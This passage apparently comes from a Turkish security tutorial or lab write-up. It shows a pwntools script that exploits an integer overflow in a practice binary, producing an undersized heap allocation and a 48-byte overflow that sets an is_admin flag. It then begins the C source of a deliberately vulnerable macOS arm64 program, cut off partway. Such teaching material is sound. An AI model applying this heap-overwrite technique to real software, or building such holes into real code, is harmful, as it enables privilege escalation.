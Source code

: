 ```python

EXE = "./int_ovf_heap_priv"

def main():
# IMPORTANT: use plain pipes, not PTY
io = process([EXE])  # stdin=PIPE, stdout=PIPE by default

# 1) Drive the prompts
io.sendlineafter(b"Entry count: ", b"4294967296")  # 2^32 -> (uint32_t)0
io.sendlineafter(b"Entry size: ",  b"1")           # alloc32 = 32, offset_to_sess = 48

# 2) Wait until it’s actually reading the payload
io.recvuntil(b">> Send bundle payload on stdin (EOF to finish)...")

# 3) Overflow 48 bytes, then flip is_admin to 1 (little-endian)
payload = b"A" * 48 + p32(1)

# 4) Send payload, THEN send EOF via half-close on the pipe
io.send(payload)
io.shutdown("send")   # <-- this delivers EOF when using pipes, it's needed to stop the read loop from the binary

# 5) Read the rest (should print admin + FLAG)
print(io.recvall(timeout=5).decode(errors="ignore"))

if __name__ == "__main__":
main()
```
### macOS Underflow Örneği
```c
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <string.h>
#include <unistd.h>

/*
* Integer underflow -> undersized allocation + oversized copy -> heap overwrite
* Works on macOS arm64. Data-oriented exploit: flip sess->is_admin.
*/

__attribute__((noinline))
void win(void) {
puts("🎉 EXPLOITATION SUCCESSFUL 🎉");
puts("FLAG{integer_underflow_heap_overwrite_on_macos_arm64}");
exit(0);
}

struct session {
int  is_admin;      // flip 0 -> 1
char note[64];
};

static size_t read_stdin(void *dst, size_t want) {
// Read in bounded chunks so huge 'want' doesn't break on PTY/TTY.
const size_t MAX_CHUNK = 1 << 20; // 1 MiB
size_t got = 0;
printf("[dbg] Requested bytes: %zu\n", want);
while (got < want) {
size_t remain = want - got;
size_t chunk  = remain > MAX_CHUNK ? MAX_CHUNK : remain;
ssize_t n = read(STDIN_FILENO, (char*)dst + got, chunk);
```